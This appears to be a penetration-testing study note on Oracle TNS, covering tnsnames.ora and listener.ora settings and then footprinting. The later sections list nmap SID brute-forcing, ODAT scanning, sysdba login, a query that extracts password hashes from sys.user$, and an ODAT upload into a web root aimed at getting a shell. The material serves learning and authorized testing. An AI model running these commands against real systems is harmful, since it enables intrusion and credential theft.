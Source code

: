 ### Features
Oracle Transport Network Substrate (TNS)
Often used for managing large complex databases in healthcare, finance and retail.
Built-in encryption 
By default can be managed Remotely  

### Configuration 
Files called tnsnames.ora or listener.ora
	ORACLE_HOME/network/admin 
	client side use tnsnames and server side uses listener,
Each database has a unique tnsnames.ora file.
	Contains necessary information for clients to connect to the service 
	
|**Setting**|**Description**|
|---|---|
|`DESCRIPTION`|A descriptor that provides a name for the database and its connection type.|
|`ADDRESS`|The network address of the database, which includes the hostname and port number.|
|`PROTOCOL`|The network protocol used for communication with the server|
|`PORT`|The port number used for communication with the server|
|`CONNECT_DATA`|Specifies the attributes of the connection, such as the service name or SID, protocol, and database instance identifier.|
|`INSTANCE_NAME`|The name of the database instance the client wants to connect.|
|`SERVICE_NAME`|The name of the service that the client wants to connect to.|
|`SERVER`|The type of server used for the database connection, such as dedicated or shared.|
|`USER`|The username used to authenticate with the database server.|
|`PASSWORD`|The password used to authenticate with the database server.|
|`SECURITY`|The type of security for the connection.|
|`VALIDATE_CERT`|Whether to validate the certificate using SSL/TLS.|
|`SSL_VERSION`|The version of SSL/TLS to use for the connection.|
|`CONNECT_TIMEOUT`|The time limit in seconds for the client to establish a connection to the database.|
|`RECEIVE_TIMEOUT`|The time limit in seconds for the client to receive a response from the database.|
|`SEND_TIMEOUT`|The time limit in seconds for the client to send a request to the database.|
|`SQLNET.EXPIRE_TIME`|The time limit in seconds for the client to detect a connection has failed.|
|`TRACE_LEVEL`|The level of tracing for the database connection.|
|`TRACE_DIRECTORY`|The directory where the trace files are stored.|
|`TRACE_FILE_NAME`|The name of the trace file.|
|`LOG_FILE`|The file where the log information is stored.|

### Footprinting 
#### May need t download some files: 
```bash
#!/bin/bash

sudo apt-get install libaio1 python3-dev alien python3-pip -y
git clone https://github.com/quentinhardy/odat.git
cd odat/
git submodule init
sudo submodule update
sudo apt install oracle-instantclient-basic oracle-instantclient-devel oracle-instantclient-sqlplus -y
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor pycryptodome passlib python-libnmap
sudo pip3 install argcomplete && sudo activate-global-python-argcomplete
```


### Test Installation with odat 
```shell-session
./odat.py -h
```

### NMAP
```shell-session
sudo nmap -p1521 -sV <ip> --open
```
#### SID Brute Forcing 
```shell-session
sudo nmap -p1521 -sV <ip> --open --script oracle-sid-brute
```

### ODAT 
```shell-session
./odat.py all -s <ip>
```

### SQLplus Login 
```shell-session
sqlplus <user>/<pass>@10.129.204.235/XE;
```

"`sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`,":
```shell-session

```

### Database Interaction
```shell-session
select table_name from all_tables;
```
```shell-session
sqlplus <user/<pass>@<ip>/XE as sysdba
```
#### Extract Password Hashes
```shell-session
select name, password from sys.user$;
```

### Shells 
Requires web server to be run and root directory 

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

```shell-session
echo "Oracle File Upload Test" > testing.txt
./odat.py utlfile -s <ip> -d XE -U <user> -P <pass> --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```
